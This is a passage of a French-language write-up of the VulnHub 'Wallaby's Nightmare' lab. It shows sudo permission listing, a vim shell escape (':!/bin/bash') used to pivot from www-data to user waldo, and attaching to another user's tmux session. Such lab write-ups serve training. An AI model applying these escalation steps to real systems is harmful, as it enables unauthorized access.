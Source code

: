 ## Internet Relay Circus

Jetons donc un œil aux permissions `sudo` :

```console
www-data@ubuntu:/var/www/html/s13!34g$3FVA5e@ed$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
    (ALL) NOPASSWD: /sbin/iptables
```

La permission Vim est intéressante, car on pourrait faire exécuter un shell avec `:!/bin/bash`

```bash
sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf
```

Une fois connecté en tant que `waldo` je trouve un script `irssi` (qui est un client IRC pour terminal) et une session `tmux` existante.

```console
waldo@ubuntu:~$ cat irssi.sh
#!/bin/bash
tmux new-session -d -s irssi
tmux send-keys -t irssi 'n' Enter
tmux send-keys -t irssi 'irssi' Enter
waldo@ubuntu:~$ tmux ls
irssi: 1 windows (created Sun Apr  2 12:09:16 2023) [80x23]
```

Il est possible de se rattacher à la session avec `tmux attach -t irssi` :

![VulnHub Wallaby Nightmare tmux session](/assets/img/vulnhub/walliby_waldo_tmux_session.png)
